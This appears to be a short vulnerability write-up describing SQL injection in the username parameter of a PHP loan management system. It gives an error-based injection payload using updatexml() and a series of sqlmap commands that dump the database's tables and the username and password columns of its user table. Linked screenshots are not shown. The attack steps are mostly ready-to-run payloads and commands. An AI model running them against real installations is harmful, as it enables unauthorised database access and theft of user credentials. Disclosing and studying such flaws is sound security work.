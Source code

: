 # Briefly
In the modification of personal data of this System, Sql injection vulnerability exists in usernameparameter, which can be used by attackers to steal malicious information.
# Process demonstration
Login interface, enter a single quote to test whether there is SQL injection
![在这里插入图片描述](https://img-blog.csdnimg.cn/2bb9b9dc6a1f44e086d13f383c6fbd6e.png)
There is SQL injection. At the same time, it is verified that the closing method is single-quote closure. Try single-quote injection.
Inject the payload as
```
1'and updatexml(1,concat(0x7e,database(),0x7e),1)#
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0d1685af002c46489e19a2da934dfa86.png)
Successfully obtained the database, then use burpsuite to capture packets to obtain data packets
![在这里插入图片描述](https://img-blog.csdnimg.cn/06610f8b1d51457882ee778dc7375092.png)
Use the tool sqlmap to attack and obtain the data table payload
```
python sqlmap.py -r "D:\sqlmap\3.txt"  -D "db_lms"  --tables
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0d83b95d16e54ad686fc975ce2a79c43.png)
Get column information payload
```
python sqlmap.py -r "D:\sqlmap\3.txt"  -D "db_lms" -T "user" --columns
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1ccadd6933ef463d8129463d5ea37489.png)
```
python sqlmap.py -r "D:\sqlmap\3.txt"  -D "db_lms" -T "user" -C "username,password" --columns
```
Get field information payload
![在这里插入图片描述](https://img-blog.csdnimg.cn/b7bfb674c4a34d4db7c63624a12be7e0.png)
source link
https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html
